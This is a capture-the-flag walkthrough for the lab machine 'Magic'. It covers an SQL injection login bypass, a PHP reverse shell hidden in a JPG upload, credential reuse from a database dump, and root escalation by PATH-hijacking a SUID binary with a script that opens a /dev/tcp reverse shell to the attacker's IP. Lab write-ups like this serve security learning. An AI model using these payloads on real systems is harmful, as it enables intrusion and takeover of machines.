 ## Magic



| Name   |      Description |  
|----------|:------------- |
| Machine IP |  10.10.10.185 |
|Difficulty |    Medium   |

## Scanning


```bash
$ nmap -sC -sV -Pn -oN nmap/magic  10.10.10.185                                         1 ⚙
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-09-14 03:58 EDT
Nmap scan report for 10.10.10.185
Host is up (0.093s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.79 seconds
```


## Enumeration

- Homepage

![homepage](images/homepage.PNG)

- application is vulnerable to simple sql injection log in with `admin' #: admin' #`
- Then on successful login  `image upload` is rendered

![upload](images/upload.PNG)


## Exploitation

- use jpg magic bytes to add to our php reverse shell
- For thsi doanload as simple image from the website and conacatenate

```bash
cat 1.jpg shell.php > myshell.php.jpg 
```

- Then upload and open the image (`http://10.10.10.185/images/uploads/myshell.php.jpg`)

__Result__

```bash
$ nc -lvnp  9001 
listening on [any] 9001 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.185] 56032
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 01:49:25 up 58 min,  0 users,  load average: 0.00, 0.05, 0.04
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```



## Privilege escalation

- Running `linpeas`, found `Db` `username` and `password`

![linpeas_pass](images/linpeas_pass.PNG)

- Dumping the database with found credentails

```bash

www-data@ubuntu:/$ mysqldump -u theseus -p Magic
mysqldump -u theseus -p Magic
Enter password: iamkingtheseus

-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version	5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2021-09-14  1:56:04
```

- credentials found `admin:Th3s3usW4sK1ng`

- switch user `su` to `theseus`

```bash
www-data@ubuntu:/$ su theseus
su theseus
Password: Th3s3usW4sK1ng

theseus@ubuntu:/$ 
```


```bash
theseus@ubuntu:/$ groups
groups
theseus users
```


```bash
theseus@ubuntu:/$ find / -group users -ls 2>/dev/null
find / -group users -ls 2>/dev/null
   393232     24 -rwsr-x---   1 root     users       22040 Oct 21  2019 /bin/sysinfo
```


Running the binary, we see an output similar to running systeminfo on Windows. Next, we want to see all library calls the binary makes. To do this, we use `ltrace`. There is a lot of output, however, we see that the binary calls other programs on the system via the `popen()` call. To cut back on the noise, and filter only those calls, we pipe the output to grep. Doing so, we see 4 programs that /bin/sysinfo runs.

```bash
theseus@ubuntu:/$ ltrace /bin/sysinfo 2>&1 | grep popen
ltrace /bin/sysinfo 2>&1 | grep popen
popen("lshw -short", "r")                        = 0x56306a871e80
popen("fdisk -l", "r")                           = 0x56306a871e80
popen("cat /proc/cpuinfo", "r")                  = 0x56306a871e80
popen("free -h", "r")                            = 0x56306a871e80

```

- we can see `free` binary being executed without absolute path, we can hijack this, by setting the `PATH` to our malicious binary


- malicious `free` binary

```bash
theseus@ubuntu:/tmp$ cat free
cat free
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.12/4242 0
```

- Set the `$PATH` to current directory and run

```bash
theseus@ubuntu:/tmp$ export PATH=`pwd`:$PATH
export PATH=`pwd`:$PATH
theseus@ubuntu:/tmp$ $PATH
$PATH
bash: /tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games: No such file or directory
```

- run

```bash
theseus@ubuntu:/tmp$ /bin/sysinfo
```

__Result__

```bash
$ nc -lvnp  4242                                                                      130 ⨯
listening on [any] 4242 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.185] 51410
root@ubuntu:/tmp# 
```